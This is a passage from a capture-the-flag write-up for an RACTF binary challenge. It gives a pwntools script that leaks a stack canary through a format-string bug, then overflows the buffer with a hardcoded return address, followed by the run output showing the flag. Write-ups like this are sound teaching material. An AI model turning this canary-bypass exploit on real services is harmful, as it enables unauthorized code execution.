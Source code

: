 Of course make a `flag.txt` to cat when testing locally

## Transfering to remote

The script for remote is very similiar to local, again using python3 with pwntools. This is my script:
```python
from pwn import *
import sys

args = sys.argv[1].split(":")
ip = args[0]
port = args[1]

io = remote(ip,port)

io.recvline()	# These recieve all the junk
io.recvline()
io.recvline()
io.recvline()

io.sendline("-%11$p-")			# Sends format string
recieved = io.recvline().decode().split("-")	# Leaks the canary, and recieves it
canary = int(recieved[1],16)		# Convert to hex number
log.info("Canary: " + str(hex(canary)))		# Print canary
io.recvline()	# More junk

payload = b"a" * 25		# Padding
payload += p32(canary)		# Canary (p32 is basically struct.pack)
payload += b'bbbbccccdddd'	# More padding
payload += p32(0x080491d2)	# Return pointer

io.sendline(payload)	# Send payload
print(io.recvline().decode())	# Recieve flag
io.close()
```

Now to run it:
```
sasha@kali:~/RACTF$ python3 fiasremote.py 95.216.233.106:45124
[+] Opening connection to 95.216.233.106 on port 45124: Done
[*] Canary: 0x4c827a00
ractf{St4ck_C4n4ry_FuN!}

[*] Closed connection to 95.216.233.106 port 45124
sasha@kali:~/RACTF$
```
Challenge done!
